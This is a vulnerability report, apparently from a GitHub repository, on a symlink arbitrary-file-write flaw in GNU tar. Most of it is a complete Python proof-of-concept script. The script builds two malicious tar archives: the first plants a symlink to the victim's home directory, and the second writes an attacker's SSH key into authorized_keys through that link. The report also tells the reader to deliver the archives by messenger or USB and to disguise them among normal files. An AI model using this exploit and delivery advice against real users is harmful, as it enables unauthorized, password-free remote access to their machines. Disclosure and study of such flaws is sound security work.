



# Gnu tar component has a symbolic link arbitrary file write vulnerability
Author: Set3r.Pan
## Report
### Describe
tar is a file packaging format widely used in Unix and Unix-like systems (such as Linux), which supports processing files or directories containing symbolic links (i.e. soft links). The vulnerability stems from the fact that when tar is decompressed, an attacker can construct a malicious tar package with soft links to implement directory traversal and write arbitrary files, such as creating a ~/.ssh/authorized_keys file, thereby implementing a password-free login attack.
### Hazard level
High
### Affected version
Gnu tar < 1.35 

### POC&&EXP
poc explanation： 
1. Modify tar_poc.py  
Line 12: obj1.linkname = "/home/ubuntu/" # Replace with the actual victim machine home directory path  
Line 39: ssh_pubkey = "/home/kali/.ssh/id_rsa.pub" # Replace with the actual attack machine's SSH public key path  
2. Send the two generated compressed packages to the victim via instant messaging software or other media such as a USB flash drive.(The compressed file can also be filled with some normal files to confuse the other party
)  
3. The victim can unzip them in any directory.  
4. The attacker logs in to the victim's machine without a password.  
tar_poc.py  
```
import socket
import tarfile
import os

RANDOM_DIR_NAME = "my_directory"  # Define random directory names

def build_tar_gz_1(tar_gz_file):
    obj1 = tarfile.TarInfo()
    obj1.name = "{}".format(RANDOM_DIR_NAME)  # Set the name of the soft link
    obj1.mode = 0o777  # Set permissions
    obj1.type = tarfile.SYMTYPE  # Set as a soft link
    obj1.linkname = "/home/ubuntu/"  # Replace with the actual victim machine home directory path

    with tarfile.open(tar_gz_file, "w:gz") as tar:
        tar.addfile(obj1)  # Add soft link to tar.gz

def build_tar_gz_2(tar_gz_file, ssh_pubkey):
    obj1 = tarfile.TarInfo()
    obj1.name = "{}/.ssh/".format(RANDOM_DIR_NAME)
    obj1.mode = 0o700
    obj1.type = tarfile.DIRTYPE

    obj2 = tarfile.TarInfo()
    obj2.name = "{}/.ssh/authorized_keys".format(RANDOM_DIR_NAME)
    obj2.mode = 0o400
    obj2.type = tarfile.REGTYPE
    obj2.size = os.path.getsize(ssh_pubkey)

    with tarfile.open(tar_gz_file, "w:gz") as tar:
        tar.addfile(obj1)  # Add .ssh directory
        with open(ssh_pubkey, "rb") as f:
            tar.addfile(obj2, f) # Add authorized_keys file

# Create 1tar.gz file
tar_gz_file = "my_archive1.tar.gz"
build_tar_gz_1(tar_gz_file)  # Create a tar.gz file containing soft links

# Create 2tar.gz file
tar_gz_file = "my_archive2.tar.gz"
ssh_pubkey = "/home/kali/.ssh/id_rsa.pub"  # Replace with the attacker's actual SSH public key path
build_tar_gz_2(tar_gz_file, ssh_pubkey)  # Create a tar.gz file containing the SSH configuration

```
### Vulnerability Reproduction
1、The attacker can send the two tarballs generated by the POC to the victim through instant messaging software or other media such as a USB flash drive. The victim receives and decompresses them in turn:

2、Successfully overwrote .ssh/authorized_keys：

3、Finally, the attacker can log into the victim's machine through SSH without password.


Reproduction video：  
[Watch the repro video](./imgs/Gnu_tar_vuln_3.mp4)
### Attack Exploitation Analysis
There are two risk points in the tar decompression process:  
1. Uncontrollable soft links  
If the tar file contains soft links (symbolic links), any file or directory can be executed across directories. Attackers can use this to create links to important system files or directories.  
2. File name conflicts  
During the decompression process, if there is a file with the same file name as the decompressed file, tar will overwrite the existing file. If the file is a soft link, it will directly overwrite the target file or directory pointed to by its soft link.

An attacker can use the above risk points to attack by making two tar compressed packages:  
- a. Make the first tar package, which contains a soft link to the user's home directory (for example, my_directory);  
- b. Make the second tar package to overwrite the .ssh folder in the user's home directory (for example, my_directory);  
- c. The user decompresses the two packages, first decompresses the first package to create a soft link, and then decompresses the second package to overwrite the .ssh folder;  
- d. The attacker controls the .ssh folder in the home directory through the soft link, and finally obtains the ssh password-free login permission.  
